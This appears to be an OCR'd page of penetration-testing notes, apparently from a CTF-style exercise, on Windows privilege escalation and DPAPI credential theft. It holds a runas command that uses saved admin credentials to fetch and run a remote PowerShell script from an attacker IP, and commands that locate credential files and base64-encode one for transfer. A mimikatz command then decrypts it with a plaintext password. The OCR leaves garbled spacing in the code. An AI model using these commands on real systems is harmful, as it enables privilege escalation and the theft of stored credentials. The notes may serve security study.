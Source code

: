 Run a command as admin:
```
runas /user:ACCESS\Administrator /savecred ​ "powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.2/admin.ps1')
```

```
powershell.exe -Credential "TestDomain\Me" -NoNewWindow -ArgumentList "Start-Process powershell.exe -Verb runAs"
```

Find all `runas` shortcuts:
```
Get-ChildItem​ ​ "C:\"​ *.lnk -Recurse -Force | ft fullname | ​ Out-File​ shortcuts.txt

ForEach​ ( ​ $file​ ​ in​ gc .\shortcuts.txt) { ​ Write-Output​ ​ $file​ ; gc ​ $file​ |
Select-String​ runas }
```

#### Windows Data Protection API

Locating `credential files`
```
cmd​ /c "​ dir​ /S /AS C:\Users\security\AppData\Local\Microsoft\Vault & ​ dir​ /S /AS
C:\Users\security\AppData\Local\Microsoft\Credentials & ​ dir​ /S /AS
C:\Users\security\AppData\Local\Microsoft\Protect & ​ dir​ /S /AS
C:\Users\security\AppData\Roaming\Microsoft\Vault & ​ dir​ /S /AS
C:\Users\security\AppData\Roaming\Microsoft\Credentials & ​ dir​ /S /AS
C:\Users\security\AppData\Roaming\Microsoft\Protect"
```

Transfer
```
[Convert]::ToBase64String([IO.File]::ReadAllBytes(​ "C:\Users\security\AppData\Roamin
g\Microsoft\Credentials\51AB168BE4BDB3A603DADE4F8CA81290"​ ))
```
```
[IO.File]::WriteAllBytes(​ "51AB168BE4BDB3A603DADE4F8CA81290"​ ,
[Convert]::FromBase64String(​ "AQAAAA4CAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAALsOSB6
VI40+LQ9k9ZFkFgAAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQAaQBhAGwAI
ABEAGEAdABhAA0ACgAAABBmAAAAAQAAIAAAAPW7usJAvZDZr308LPt/MB8fEjrJTQejzAEgOBNfpaa8AAAA
AA6AAAAAAgAAIAAAAPlkLTI/rjZqT3KT0C8m5Ecq3DKwC6xqBhkURY2t/T5SAAEAAOc1Qv9x0IUp+dpf+I7
c1b5E0RycAsRf39nuWlMWKMsPno3CIetbTYOoV6/xNHMTHJJ1JyF/4XfgjWOmPrXOU0FXazMzKAbgYjY+WH
hvt1Uaqi4GdrjjlX9Dzx8Rou0UnEMRBOX5PyA2SRbfJaAWjt4jeIvZ1xGSzbZhxcVobtJWyGkQV/5v4qKxd
lugl57pFAwBAhDuqBrACDD3TDWhlqwfRr1p16hsqC2hX5u88cQMu+QdWNSokkr96X4qmabp8zopfvJQhAHC
KaRRuRHpRpuhfXEojcbDfuJsZezIrM1LWzwMLM/K5rCnY4Sg4nxO23oOzs4q/ZiJJSME21dnu8NAAAAAY/z
BU7zWC+/QdKUJjqDlUviAlWLFU5hbqocgqCjmHgW9XRy4IAcRVRoQDtO4U1mLOHW6kLaJvEgzQvv2cbicmQ
=="​ ))
```

Extraction credential file -> masterkey (guidMasterKey)
- [https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)

```
dpapi::​ cred​ /​ in​ :51​ AB168BE4BDB3A603DADE4F8CA81290
/​ sid:S​ -1-5-21-953262931-566350628-63446256-1001 /​ password​ :4​ Cc3ssC0ntr0ller
```
